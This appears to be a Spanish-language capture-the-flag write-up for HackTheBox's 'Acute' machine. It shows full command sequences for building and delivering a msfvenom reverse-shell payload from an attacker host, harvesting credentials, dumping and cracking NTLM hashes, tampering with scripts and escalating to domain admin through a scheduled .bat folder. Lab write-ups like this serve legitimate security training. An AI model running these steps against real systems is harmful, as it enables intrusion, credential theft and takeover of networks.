




Resolución de la máquina Acute de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap -sC 10.10.11.145
Nmap scan report for 10.10.11.145
443/tcp open https
| http-methods:
|_ Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
En /about.html encontramos algunas cosas, iniciando por un texto con una posible lista de usuarios
WHO WE WORK WITH
Acute Health work with healthcare providers, councils and NHS units in the UK,
training over 10,000 nurses, managers and healthcare workers every year. Some
of our more established team members have been included for multiple awards,
these members include Aileen Wallace, Charlotte Hall, Evan Davies, Ieuan Monks,
Joshua Morgan, and Lois Hopkins. Each of whom have come away with special
accolades from the Healthcare community.
Tomando la primera letra del nombre y el apellido nos quedaria la siguiente lista
AWallace
CHall
EDavies
IMonks
JMorgan
LHopkins
Además en la parte de arriba encontramos un botón "New Starter Forms" si damos clic se nos descarga un docx

En el docx encontramos algunas cosas, entre ellas un texto el cual dice que la contraseña predeterminada es "Password1!"
Walk the new starter through the password change policy, they will need to
change it from the default Password1!. Not all staff are changing these so
please be sure to run through this.
Además otro apartado que tiene un vinculo que nos lleva a "/Acute_Staff_Access"
Arrange for the new starter to meet with other staff in the department as
appropriate. This could include the Head of Department and or other members
of the appointee’s team. Complete the remote training
Si miramos los datos con exiftool encontramos en "Description" el nombre del equipo
❯ exiftool New_Starter_CheckList_v7.docx | grep Description
Description : Created on Acute-PC01
Podemos usar estos datos para iniciar sesión en "/Acute_Staff_Access", como EDavies
Username: EDavies
Password: Password1!
Computer Name: Acute-PC01

Iniciamos sesión y obtenemos una powershell, pero no en la máquina real

Para estar desde terminal crearemos un payload .exe con msfvenom
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
Iniciamos un servicio http y desde la máquina victima descargaremos el payload en el directorio "C:\Utils" que está en la whitelist de windows defender
PS C:\Utils> curl 10.10.14.10/shell.exe -o shell.exe
PS C:\Utils>
Ahora con msfconsole iniciaremos un listener para poder recibir la shell
❯ sudo msfconsole
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST tun0
LHOST => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit
[*] Started reverse TCP handler on 10.10.14.10:443
Volvemos a la powershell y ejecutamos el payload
PS C:\Utils> .\shell.exe
Ahora recibimos la conexión en nuestro listener
[*] Started reverse TCP handler on 10.10.14.10:443
[*] Sending stage (200262 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.10:443 -> 10.10.11.145:49789)
(Meterpreter 1)(C:\Utils) > getuid
Server username: ACUTE\edavies
(Meterpreter 1)(C:\Utils) >
Ya que tenemos la conexión en meterpreter vamos a dar un vistazo en tiempo real
(Meterpreter 1)(C:\Utils) > screenshare
[*] Preparing player...
[*] Opening player at: ~/snBQttPr.html
[*] Streaming...
Después de unos segundos el usuario abre una powershell y ejecuta unos comandos

Aunque la calidad de la transmisión no es muy buena, logramos obtener los siguientes comandos
PS C:\Users\edavies> $pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force
PS C:\Users\edavies> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $pass)
PS C:\Users\edavies> Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred
Tomando esto como referencia podemos volver a la web, y con las credenciales conseguir el user
PS C:\Utils> $pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force
PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $pass)
PS C:\Utils> Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami}
acute\imonks
PS C:\Utils> Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat C:\Users\imonks\Desktop\user.txt}
594**************************ccd
PS C:\Utils>
Además de la flag en el escritorio hay un .ps1 que tiene lo que parece ser "credenciales" para jmorgan
PS C:\Utils> Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls ..\Desktop}
Directory: C:\Users\imonks\Desktop
Mode LastWriteTime Length Name PSComputerName
---- ------------- ------ ---- --------------
-ar--- 22/6/2022 06:19 34 user.txt ATSSERVER
-a---- 22/6/2022 16:00 625 wm.ps1 ATSSERVER
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {cat ..\Desktop\wm.ps1}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4
f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e0
62ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
PS C:\Utils>
Cambiaremos el "Get-Volume" por la ruta de nuestro payload que habiamos creado para obtener shell como jmorgan
PS C:\Utils> Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{((cat "C:\Users\imonks\Desktop\wm.ps1" -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1} -Credential $cred
PS C:\Utils>
De nuevo con msfconsole estaremos en escucha
❯ sudo msfconsole
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST tun0
LHOST => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit
[*] Started reverse TCP handler on 10.10.14.10:443
Ejecutaremos el ps1 para que se ejecute el payload
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
PS C:\Utils>
Obtenemos una shell como nt authority\system pero en la 172.16.22.2
[*] Started reverse TCP handler on 10.10.14.10:443
[*] Sending stage (200262 bytes) to 10.10.11.145
[*] Meterpreter session 2 opened (10.10.14.10:443 -> 10.10.11.145:49790)
(Meterpreter 2)(C:\Users\jmorgan) > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
(Meterpreter 2)(C:\Users\jmorgan) > getuid
Server username: NT AUTHORITY\SYSTEM
(Meterpreter 2)(C:\Users\jmorgan) > ipconfig
Interface 14
============
Name : Microsoft Hyper-V Network Adapter #2
Hardware MAC : 00:15:5d:e8:0a:01
MTU : 1500
IPv4 Address : 172.16.22.2
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::9513:4361:23ec:64fd
IPv6 Netmask : ffff:ffff:ffff:ffff::
(Meterpreter 2)(C:\Users\jmorgan) >
Lo que podemos haces es dumpear los hashes y ver si logramos romper alguno que se reutilice
(Meterpreter 2)(C:\Users\jmorgan) > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
(Meterpreter 2)(C:\Users\jmorgan) >
Con john logramos romper el de Administrator
❯ cat hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash --format=NT
Loaded 1 password hash (NT [MD4 128/128 XOP 4x2])
Password@123 (Administrator)
Session completed
La contraseña funciona para AWallace asi que creamos la credencial y podemos ejecutar comandos
PS C:\Utils> $pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("Acute\awallace",$pass)
PS C:\Utils> Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami}
acute\awallace
PS C:\Utils>
Si buscamos un poco en "C:\Program Files\keepmeon" encontramos un archivo .bat que contiene lo siguiente
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {cat 'C:\Program Files\Keepmeon\keepmeon.bat'}
REM This is run every 5 minutes. For Lois use ONLY
@echo off
for /R %%x in (*.bat) do (
if not "%%x" == "%~0" call "%%x"
)
PS C:\Utils>
Resumiendo, cada 5 munutos ejecuta todos los .bat que existan en el directorio, sabiendo esto podemos crear nuestro .bat que nos agregue al grupo Administrators de la siguiente manera
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'C:\program files\Keepmeon\root.bat' -Value 'net group site_admin awallace /add /domain'}
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {cat 'C:\Program Files\Keepmeon\root.bat'}
net group site_admin awallace /add /domain
PS C:\Utils>
Ahora que vemos que tiene el contenido que queremos, queda esperar 5 minutos, pasado ese tiempo ya estamos en el grupo Administrators
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami /groups}
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
============================================ ================ ============================================== ===============================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
ACUTE\Domain Admins Group S-1-5-21-1786406921-1914792807-2072761762-512 Mandatory group, Enabled by default, Enabled group
ACUTE\Managers Group S-1-5-21-1786406921-1914792807-2072761762-1111 Mandatory group, Enabled by default, Enabled group
ACUTE\Site_Admin Group S-1-5-21-1786406921-1914792807-2072761762-2102 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1 Mandatory group, Enabled by default, Enabled group
ACUTE\Denied RODC Password Replication Group Alias S-1-5-21-1786406921-1914792807-2072761762-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level Label S-1-16-12288
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\Administrator\Desktop\root.txt}
0cc**************************63e
PS C:\Utils>